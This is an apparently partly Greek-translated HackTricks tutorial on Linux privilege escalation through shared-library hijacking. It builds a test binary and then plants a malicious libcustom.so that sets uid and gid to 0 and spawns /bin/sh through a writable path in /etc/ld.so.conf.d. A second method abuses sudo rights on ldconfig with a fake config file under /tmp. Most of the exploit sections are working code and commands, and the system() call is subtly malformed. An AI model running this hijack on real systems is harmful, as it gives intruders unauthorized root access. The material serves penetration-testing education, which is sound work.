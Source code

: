# ld.so privesc exploit example

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}

## Ετοιμάστε το περιβάλλον

In the following section you can find the code of the files we are going to use to prepare the environment

{% tabs %}
{% tab title="sharedvuln.c" %}
```c
#include <stdio.h>
#include "libcustom.h"

int main(){
printf("Welcome to my amazing application!\n");
vuln_func();
return 0;
}
```
{% endtab %}

{% tab title="libcustom.h" %}
```c
#include <stdio.h>

void vuln_func();
```
{% endtab %}

{% tab title="libcustom.c" %}
```c
#include <stdio.h>

void vuln_func()
{
puts("Hi");
}
```
{% endtab %}
{% endtabs %}

1. **Δημιουργήστε** αυτά τα αρχεία στον υπολογιστή σας στον ίδιο φάκελο
2. **Συγκεντρώστε** τη **βιβλιοθήκη**: `gcc -shared -o libcustom.so -fPIC libcustom.c`
3. **Αντιγράψτε** `libcustom.so` στο `/usr/lib`: `sudo cp libcustom.so /usr/lib` (δικαιώματα root)
4. **Συγκεντρώστε** το **εκτελέσιμο**: `gcc sharedvuln.c -o sharedvuln -lcustom`

### Ελέγξτε το περιβάλλον

Ελέγξτε ότι το _libcustom.so_ φορτώνεται από το _/usr/lib_ και ότι μπορείτε να **εκτελέσετε** το δυαδικό.
```
$ ldd sharedvuln
linux-vdso.so.1 =>  (0x00007ffc9a1f7000)
libcustom.so => /usr/lib/libcustom.so (0x00007fb27ff4d000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fb27fb83000)
/lib64/ld-linux-x86-64.so.2 (0x00007fb28014f000)

$ ./sharedvuln
Welcome to my amazing application!
Hi
```
## Exploit

Σε αυτό το σενάριο θα υποθέσουμε ότι **κάποιος έχει δημιουργήσει μια ευάλωτη είσοδο** μέσα σε ένα αρχείο στο _/etc/ld.so.conf/_:
```bash
sudo echo "/home/ubuntu/lib" > /etc/ld.so.conf.d/privesc.conf
```
Ο ευάλωτος φάκελος είναι _/home/ubuntu/lib_ (όπου έχουμε δικαίωμα εγγραφής).\
**Κατεβάστε και μεταγλωττίστε** τον παρακάτω κώδικα μέσα σε αυτήν την διαδρομή:
```c
//gcc -shared -o libcustom.so -fPIC libcustom.c

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void vuln_func(){
setuid(0);
setgid(0);
printf("I'm the bad library\n");
system("/bin/sh",NULL,NULL);
}
```
Τώρα που έχουμε **δημιουργήσει τη κακόβουλη βιβλιοθήκη libcustom μέσα στο κακώς ρυθμισμένο** μονοπάτι, πρέπει να περιμένουμε για μια **επανεκκίνηση** ή για τον χρήστη root να εκτελέσει **`ldconfig`** (_σε περίπτωση που μπορείτε να εκτελέσετε αυτό το δυαδικό αρχείο ως **sudo** ή έχει το **suid bit** θα μπορείτε να το εκτελέσετε μόνοι σας_).

Μόλις συμβεί αυτό **ελέγξτε ξανά** από πού φορτώνει το εκτελέσιμο `sharevuln` τη βιβλιοθήκη `libcustom.so`:
```c
$ldd sharedvuln
linux-vdso.so.1 =>  (0x00007ffeee766000)
libcustom.so => /home/ubuntu/lib/libcustom.so (0x00007f3f27c1a000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f3f27850000)
/lib64/ld-linux-x86-64.so.2 (0x00007f3f27e1c000)
```
Όπως μπορείτε να δείτε, **το φορτώνει από το `/home/ubuntu/lib`** και αν οποιοσδήποτε χρήστης το εκτελέσει, θα εκτελεστεί ένα shell:
```c
$ ./sharedvuln
Welcome to my amazing application!
I'm the bad library
$ whoami
ubuntu
```
{% hint style="info" %}
Σημειώστε ότι σε αυτό το παράδειγμα δεν έχουμε κλιμακώσει τα δικαιώματα, αλλά τροποποιώντας τις εντολές που εκτελούνται και **περιμένοντας τον root ή άλλο χρήστη με δικαιώματα να εκτελέσει το ευάλωτο δυαδικό αρχείο** θα μπορέσουμε να κλιμακώσουμε τα δικαιώματα.
{% endhint %}

### Άλλες κακές ρυθμίσεις - Ίδια ευπάθεια

Στο προηγούμενο παράδειγμα προσποιηθήκαμε μια κακή ρύθμιση όπου ένας διαχειριστής **έθεσε έναν μη προνομιούχο φάκελο μέσα σε ένα αρχείο ρύθμισης μέσα στο `/etc/ld.so.conf.d/`**.\
Αλλά υπάρχουν και άλλες κακές ρυθμίσεις που μπορούν να προκαλέσουν την ίδια ευπάθεια, αν έχετε **δικαιώματα εγγραφής** σε κάποιο **αρχείο ρύθμισης** μέσα στο `/etc/ld.so.conf.d`, στον φάκελο `/etc/ld.so.conf.d` ή στο αρχείο `/etc/ld.so.conf` μπορείτε να ρυθμίσετε την ίδια ευπάθεια και να την εκμεταλλευτείτε.

## Εκμετάλλευση 2

**Υποθέστε ότι έχετε δικαιώματα sudo πάνω στο `ldconfig`**.\
Μπορείτε να υποδείξετε στο `ldconfig` **από πού να φορτώσει τα αρχεία ρύθμισης**, οπότε μπορούμε να εκμεταλλευτούμε αυτό για να κάνουμε το `ldconfig` να φορτώσει αυθαίρετους φακέλους.\
Έτσι, ας δημιουργήσουμε τα αρχεία και τους φακέλους που χρειάζονται για να φορτώσουμε το "/tmp":
```bash
cd /tmp
echo "include /tmp/conf/*" > fake.ld.so.conf
echo "/tmp" > conf/evil.conf
```
Τώρα, όπως υποδεικνύεται στην **προηγούμενη εκμετάλλευση**, **δημιουργήστε τη κακόβουλη βιβλιοθήκη μέσα στο `/tmp`**.\
Και τέλος, ας φορτώσουμε τη διαδρομή και να ελέγξουμε από πού φορτώνει τη βιβλιοθήκη το δυαδικό αρχείο:
```bash
ldconfig -f fake.ld.so.conf

ldd sharedvuln
linux-vdso.so.1 =>  (0x00007fffa2dde000)
libcustom.so => /tmp/libcustom.so (0x00007fcb07756000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fcb0738c000)
/lib64/ld-linux-x86-64.so.2 (0x00007fcb07958000)
```
**Όπως μπορείτε να δείτε, έχοντας δικαιώματα sudo πάνω στο `ldconfig`, μπορείτε να εκμεταλλευτείτε την ίδια ευπάθεια.**

{% hint style="info" %}
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}

